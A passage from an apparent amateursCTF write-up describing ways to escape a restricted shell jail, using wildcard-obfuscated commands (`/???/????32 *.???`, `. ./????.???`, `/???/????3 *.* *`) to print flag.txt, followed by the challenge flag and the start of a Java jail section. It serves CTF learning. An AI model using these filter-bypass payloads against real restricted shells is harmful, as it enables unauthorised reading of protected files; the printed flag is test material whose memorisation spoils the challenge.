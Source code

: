 #### Approach 2
```bash
> nc chal.amt.rs 2100
$ /???/????32 *.???
MFWWC5DFOVZHGQ2UIZ5XA2LDGBPXONBVNY3V6ZZQGBSF63RQOVTWQXZVGBPWSXZXGAYGWX3TN5WT
GX3DOIZTI5BROYZV63BRMIZXE5BRGM2V6YLEMU4DQMRQMV6Q====
```
Put that base32 code into `temp.txt` and run:
```bash
base32 -d temp.txt
```
And get the flag


#### Other approaches
These are the ones that I collect from people in the Discord server

1. Use '.' command

This might be the silliest solution. The payload is `. ./????.???`, or even shorter: `. ./*.*`

```bash
ubuntoo% nc chal.amt.rs 2100
$ . ./????.???
/bin/sh: 1: ./flag.txt: amateursCTF{...}: not found
```
Yep.

2. Use 'diff3' command

Pretty similar to approach 2. The payload is `/???/????3 *.* *`
```bash
ubuntoo% nc chal.amt.rs 2100
$ /???/????3 *.* *
====3
1:1c
2:1c
  amateursCTF{...}
\ No newline at end of file
3:1,24c
....
```

#### Flag: amateursCTF{pic0_w45n7_g00d_n0ugh_50_i_700k_som3_cr34t1v3_l1b3rt135_ade8820e}



### 2.2. jail/javajail1

#### Difficulty: easy

#### Analyzing
Here's my normal code for reading `flag.txt` and print its content out.

```java
import java.io.BufferedReader;
import java.io.FileReader;

public class Main {
    public static void main(String[] args) throws java.io.IOException {
        String filePath = "flag.txt";
        BufferedReader reader = new BufferedReader(new FileReader(filePath));
        String line;
        System.out.println(reader.readLine());
        reader.close();
    }
}
```